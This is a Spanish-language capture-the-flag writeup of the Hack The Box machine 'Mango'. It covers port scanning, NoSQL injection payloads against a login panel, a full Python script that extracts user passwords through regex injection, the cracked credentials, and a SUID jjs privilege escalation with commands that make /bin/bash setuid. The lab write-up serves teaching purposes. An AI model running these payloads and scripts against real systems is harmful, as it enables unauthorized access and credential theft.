

[Mango](https://app.hackthebox.com/machines/214) es una máquina **Linux** de dificultad media ofrecida por la plataforma de [Hack The Box](https://app.hackthebox.com/). A lo largo de este post encontrarás un writeup de su resolución.

# Información

Esta box introduce conceptos de inyección NoSQL a través de un panel de Login, la manera en que se obtendrá información será a través de códigos **HTTP**, en donde en base a fuzzing para enumerar credenciales, se recibirá distintas respuestas dependiendo si los datos son correctos o no. Posteriormente, tendremos que loguear por **SSH** con las credenciales obtenidas y migrar a otro usuario antes de abusar de los permisos **SUID** en un binario que se encuentra alojado en la máquina para finalmente convertirnos en **root**.


# Enumeración

## Rustscan - NMAP

Como siempre, se iniciará realizando un escaneo general de los 65535 puertos. En este caso se utilizará [Rustscan](https://github.com/RustScan/RustScan), proporcionando comandos de nmap para realizar el escaneo desde un solo comando.

* ```rustscan 10.10.10.149 -- -sC -sV | tee ports-rustcan```

```plaintext
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.10.162:22
Open 10.10.10.162:80
Open 10.10.10.162:443

(...)

PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXYCdNRHET98F1ZTM+H8yrD9KXeRjvIk9e78JkHdzcqCq6zcvYIqEZReb3FSCChJ9mxK6E6vu5xBY7R6Gi0V31dx0koyaieEMd67PU+9UcjaAujbDS3UgYzySN+c5GV/ssmA6wWHu4zz+k+qztqdYFPh0/TgrC/wNPWHOKdpivgoyk3+F/retyGdKUNGjypXrw6v1faHiLOIO+zNHorxB304XmSLEFswiOS8UsjplIbud2KhWPEkY4s4FyjlpfpVdgPljbjijm7kcPNgpTXLXE51oNE3Q5w7ufO5ulo3Pqm0x+4d+SEpCE4g0+Yb020zK+JlKsp2tFJyLqTLan1buN
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqSZ4iBMzBrw2lEFKYlwO2qmw0WPf76ZhnvWGK+LJcHxvNa4OQ/hGuBWCjVlTcMbn1Te7D8jGwPgbcVpuaEld8=
|   256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB1sFdLYacK+1f4J+i+NCAhG+bj8xzzydNhqA1Ndo/xt
80/tcp  open  http     syn-ack Apache httpd 2.4.29
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/localityName=None/organizationalUnitName=None/emailAddress=admin@mango.htb
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/localityName=None/organizationalUnitName=None/emailAddress=admin@mango.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
| SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
| -----BEGIN CERTIFICATE-----
| MIIEAjCCAuqgAwIBAgIJAK5QiSmoBvEyMA0GCSqGSIb3DQEBCwUAMIGVMQswCQYD
| VQQGEwJJTjENMAsGA1UECAwETm9uZTENMAsGA1UEBwwETm9uZTEXMBUGA1UECgwO
| TWFuZ28gUHJ2IEx0ZC4xDTALBgNVBAsMBE5vbmUxIDAeBgNVBAMMF3N0YWdpbmct
| b3JkZXIubWFuZ28uaHRiMR4wHAYJKoZIhvcNAQkBFg9hZG1pbkBtYW5nby5odGIw
| HhcNMTkwOTI3MTQyMTE5WhcNMjAwOTI2MTQyMTE5WjCBlTELMAkGA1UEBhMCSU4x
| DTALBgNVBAgMBE5vbmUxDTALBgNVBAcMBE5vbmUxFzAVBgNVBAoMDk1hbmdvIFBy
| diBMdGQuMQ0wCwYDVQQLDAROb25lMSAwHgYDVQQDDBdzdGFnaW5nLW9yZGVyLm1h
| bmdvLmh0YjEeMBwGCSqGSIb3DQEJARYPYWRtaW5AbWFuZ28uaHRiMIIBIjANBgkq
| hkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA5fimSfgq3xsdUkZ6dcbqGPDmCAJJBOK2
| f5a25At3Ht5r1SjiIuvovDSmMHjVmlbF6qX7C6f7Um+1Vtv/BinZfpuMEesyDH0V
| G/4X5r6o1GMfrvjvAXQ2cuVEIxHGH17JM6gKKEppnguFwVMhC4/KUIjuaBXX9udA
| 9eaFJeiYEpdfSUVysoxQDdiTJhwyUIPnsFrf021nVOI1/TJkHAgLzxl1vxrMnwrL
| 2fLygDt1IQN8UhGF/2UTk3lVfEse2f2kvv6GbmjxBGfWCNA/Aj810OEGVMiS5SLr
| arIXCGVl953QCD9vi+tHB/c+ICaTtHd0Ziu/gGbdKdCItND1r9kOEQIDAQABo1Mw
| UTAdBgNVHQ4EFgQUha2bBOZXo4EyfovW+pvFLGVWBREwHwYDVR0jBBgwFoAUha2b
| BOZXo4EyfovW+pvFLGVWBREwDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsF
| AAOCAQEAmyhYweHz0az0j6UyTYlUAUKY7o/wBHE55UcekmWi0XVdIseUxBGZasL9
| HJki3dQ0mOEW4Ej28StNiDKPvWJhTDLA1ZjUOaW2Jg20uDcIiJ98XbdBvSgjR6FJ
| JqtPYnhx7oOigKsBGYXXYAxoiCFarcyPyB7konNuXUqlf7iz2oLl/FsvJEl+YMgZ
| YtrgOLbEO6/Lot/yX9JBeG1z8moJ0g+8ouCbUYI1Xcxipp0Cp2sK1nrfHEPaSjBB
| Os2YQBdvVXJau7pt9zJmPVMhrLesf+bW5CN0WpC/AE1M1j6AfkX64jKpIMS6KAUP
| /UKaUcFaDwjlaDEvbXPdwpmk4vVWqg==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Resumen puertos

| Puerto  | Estado  | Servicio             |
|---------|---------|----------------------|
| 22/tcp  | Abierto | OpenSSH 7.6p1 Ubuntu |
| 80/tcp  | Abierto | Apache httpd 2.4.29  |
| 443/tcp | Abierto | Apache httpd 2.4.29  |

## Enumeración web

Iniciando con la enumeración web, sabemos que tenemos HTTP y HTTPS disponibles, con esto lo primero a realizar es entrar por puerto 80 utilizando la dirección IP de **Mango** y vemos que no despliega ninguna página. Conociendo la estructura de HTB podemos suponer que se aplique virtual hosting, por lo que toca agregar la entrada correspondiente a ```/etc/hosts```.

Al consultar ```mango.htb``` se visualiza un buscador al estilo de google.


Rápidamente se verifica el código y vemos que el buscador no hace nada relevante, solo existe un enlace a otro recurso llamado ```analytics.php```.


Nuevamente no se detecta nada que sea de interés.

Por otro lado y recordando que el puerto 443 se encuentra expuesto, sería recomendable revisar el certificado SSL del sitio para extraer información.


Se obtiene lo siguiente.
* Usuario potencial: ```admin@mango.htb```
* Subdominio: ```staging-order.mango.htb```

En este último vemos un panel de autenticación de usuarios.


En base a todo lo descubierto anteriormente, hasta ahora se tendría mapeada la siguiente estructura en el servidor web.

### Estructura web



# Acceso inicial

Partiendo desde el panel de login descubierto en ```http://staging-order.mango.htb/index.php```, después de muchos intentos fallidos de inyección XXS y SQLi descubrimos que la base de datos es una del tipo no relaciónal **NoSQL**. Se puede inferir que se trata de **MongoDB** debido a la similitud con el nombre de la máquina.

Interceptamos y enviamos al **repeater** de **BurpSuite** una petición al panel de login para analizarla.


Se descubre que al ingresar credenciales inválidas se recibe un código de estado ```200 OK``` y la web no entrega feedback con respecto a si el usuario existe o no. Podemos usar esta respuesta para determinar si las credenciales son válidas, suponiendo que retornará un código ```3XX``` cuando lo sean.

## Inyección NoSQL


Para intentar la inyección NoSQL, utilizaremos la web de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection). Entre los payloads más comunes tenemos:

* ```login[$regex]=a.*&pass[$ne]=lol```
* ```username[$ne]=toto&password[$regex]=m.*```

Por lo visto las bases de datos NoSQL se pueden consultar a través de expresiones regulares u operadores binarios. Para las expresiones regulares se utilizará ```[$regex]``` en el nombre del campo enviado por **POST** seguido de la expresión que especifiquemos.

Algo como ```username[$regex]=^a.*``` nos ayudará a fuzzear el nombre de usuario, haciendo una iteración en la posición de ```a```. De esta forma podemos ir construyendo el nombre aprovechando ```*``` que opera como comodín.

Para el caso de el campo password, por el momento haremos lo siguiente ```password[$gt]=""```. Esta consulta devolverá ```True``` cuando la contraseña real sea mayor que ```""``` (una cadena vacía), por consiguiente servirá hasta enumerar los usuarios.

### Enumeración de usuarios

Esto se puede adaptar a la estructura del login actual para, primeramente, enumerar el usuario. Quedaría de la siguiente forma:

* ```username[$regex]=^a.*&password[$gt]=""&login=login```

Enviando esto por burpsuite hacia el panel de login, vemos que se recibe una respuesta con código ```302 Found```, lo cual indica que la letra ```a``` es el primer caracter del usuario.


Validamos enviando otro caracter distinto, y efectivamente la respuesta del servidor cambia a un ```200 OK```, por lo que el fuzzing funciona correctamente.


Sabiendo esto, y para trabajar más rápido, haré la enumeración de usuarios con el intruder de **BurpSuite**. En *positions* se definirá en donde aplicaremos el fuzzing.


Y en *Payloads* cargaremos el diccionario [char.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/char.txt) de **SecLists**.


Le daremos a **Start attack** y ordenaremos por la columna Status. Al cabo de un momento se obtienen dos caracteres válidos (```a```, ```m```), lo que nos da a pensar que al menos existen dos usuarios en la BD.


Después de un tiempo se logran enumerar los usuarios:

```plaintext
admin
mango
```

### Enumeración de contraseñas

En el caso de las contraseñas, para acelerar el proceso, he creado un script en **Python 3**.
  
```python
#!/usr/bin/python3
# Author: https://brsalcedom.github.io

import requests, string, re
from termcolor import colored, cprint
from pwn import *

users = ['admin', 'mango']
url = "http://staging-order.mango.htb/index.php"
burp = {'http': 'http://127.0.0.1:8080'}
payload = string.ascii_letters + string.digits + string.punctuation

def def_handler(sig, frame):
    print("\n[!] Exiting...")
    sys.exit(1)

#CTRL + C
signal.signal(signal.SIGINT, def_handler)

p1 = log.progress("Bruteforcing")
p2 = log.progress("Username")
p3 = log.progress("Password")

print()

def brute(username):
    password = ""
    p2.status(username)

    for pos in range(1,50):
        for char in payload:
            if char in ["*", "+", ".", "?", "|", "\\"]:
                continue

            p1.status("testing [{}] on position [{}]".format(char, pos))

            post_data = {
                'username' : username,
                'password[$regex]' : '^{}{}.*'.format(password, char),
                'login' : 'login'
            }

            r = requests.post(url, data=post_data)
            status_code = re.findall(r'\d{3}', str(r.history))

            if status_code:
                password += char
                p3.status(password)
                break

        # Testing if password is valid
        post_data = {
            'username' : username,
            'password' : password,
            'login' : 'login'
        }

        r2 = requests.post(url, data=post_data)

        if 'Under Plantation' in r2.text or pos > len(password):
            p3.status("Password obtained!")
            cprint("\n[+] Credentials: {} - {}".format(username, password), 'white')
            break

if __name__ == '__main__':
    for user in users:
        brute(user)
```
{: file="password-brute.py" }


```plaintext
admin:t9KcS3>!0B#2
mango:h3mXK8RhU~f{]f5H
```

Con esta información, ya podemos intentar utilizar las credenciales obtenidas para conectarnos a través de **SSH**.


En el caso del user ```admin``` vemos que nos rechaza la conexión por SSH, pero es posible cambiar a éste user una vez logueados con el user ```mango```.

# Escalada de privilegios


Ya como el user ```admin``` y como parte de la enumeración básica, buscaremos archivos con permisos SUID con la ayuda de [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM).


Encontramos el binario ```jjs``` con permiso SUID. Esto se puede explotar fácilmente utilizando [GTFObins](https://gtfobins.github.io/gtfobins/jjs/).

Según la web, se puede explotar ejecutando el siguiente comando:

* ```echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs```

Esto, al ejecutarlo hizo que se colgara la consola, por lo tanto, en vez de conseguir una consola como root, intentaremos cambiar los permisos de ```/bin/bash``` para asignarle **SUID**.

* ```echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod +s /bin/bash').waitFor()" | jjs```

Una vez aplicado el comando, ya estarían modificados los permisos de ```/bin/bash``` y nos podemos convertir a **root** sin inconvenientes.


Ya siendo **root**, solo restaría listar el contenido de las flags para ingresarlas en la plataforma. Dicho esto, eso sería todo para **Mango**.

